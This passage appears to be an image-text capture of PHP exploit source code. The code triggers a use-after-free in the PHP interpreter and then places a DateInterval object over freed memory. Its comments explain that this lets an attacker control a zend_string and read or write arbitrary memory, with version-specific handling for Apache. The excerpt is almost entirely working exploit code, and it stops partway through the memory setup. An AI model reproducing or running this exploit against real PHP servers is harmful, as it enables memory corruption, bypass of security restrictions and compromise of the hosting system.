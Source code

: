 	#
	# Trigger UAF
	#

	o('  Unsetting both variables and setting $protector');
	# UAF here, $this is usable despite being freed
	unset($y[0]);
	# Protect $this's freed blocks
	unset($p);

	# Protect $p's timelib_rel_time structure
	$protector = ".$_protector";
	# !!! This is only required for apache
	# Got no idea as to why there is an extra deallocation (?)
	if(version_compare(PHP_VERSION, '7.2') &gt;= 0)
        		$room[] = "!$_protector";

	o('  Creating DateInterval object');
	# After this line:
	# &amp;((php_interval_obj) x).timelib_rel_time == ((zval) abc).value.str
	# We can control the structure of $this-&gt;abc and therefore read/write
	# anything that comes after it in memory by changing its size and
	# making in-place edits using $this-&gt;abc[$position] = $char
	$x = new DateInterval('PT1S');
	# zend_string.refcount = 0
	# It will get incremented at some point, and if it is &gt; 1,
	# zend_assign_to_string_offset() will try to duplicate it before making
	# the in-place replacement
	$x-&gt;y = 0x00;
	# zend_string.len
	$x-&gt;d = 0x100;
	# zend_string.val[0-4]